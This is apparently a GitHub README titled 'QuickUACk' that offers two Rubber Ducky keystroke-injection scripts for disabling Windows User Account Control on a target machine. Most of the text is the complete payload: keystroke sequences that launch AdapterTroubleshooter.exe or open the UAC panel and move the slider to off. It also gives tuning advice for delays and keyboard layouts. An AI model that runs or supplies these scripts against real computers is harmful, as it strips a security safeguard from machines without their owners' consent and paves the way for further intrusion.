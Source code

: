 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky.

</BR>

![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)

</BR>


A pair of fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments.
</BR>
if the target machine is old, I recommend extending the delay time.

</BR>

Ver 1.0 uses a .exe application from the C: \ Windows \ System32 (system protected) folder, 
</BR>
to start the uac on-screen control and switch to the uac panel.
</BR>
the C: \ Windows \ SysWOW64 folder for the purpose or other protected system folders that contain exe are also fine.
</BR>
Several applications contained in System32 are good, but be careful because there are some exceptions.
</BR>
You can consult this list to see the applications that are whitelisted by default on W7 
</BR>
and therefore  do not require uac checking to be performed:
</BR>

https://books.google.it/books?id=1EXt2U84WZ0C&pg=PA278&lpg=PA278&dq=AdapterTroubleshooter.exe&source=bl&ots=sWxJuFdZdU&sig=OhOUJ9gzJxfLb4jlJPiuZyP2F-U&hl=it&sa=X&ved=0ahUKEwi37qe0_fvaAhWMyqYKHWz8CWQQ6AEIcDAN#v=onepage&q=AdapterTroubleshooter.exe&f=false

</BR>

![alt text](https://i.imgur.com/3k9YWzZ.gif)

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


QuickUACk Ver. 1.0

DELAY 2000
</BR>
GUI r
</BR>
DELAY 200
</BR>
REM cmd /c "start C:\Windows\System32\AdapterTroubleshooter.exe"
</BR>
REM work on all windows version 32 and 64 bit
</BR>
REM no reboot is required for disabling 
</BR>
STRING AdapterTroubleshooter
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-



QuickUACk Ver. 2.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM opens directly the User Account Control Panel 
</BR>
REM work on all windows version 32 and 64 bit with uac (Vista or Earlier)
</BR>
REM no reboot is required for disabling
</BR>
STRING UAC
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


</BR>



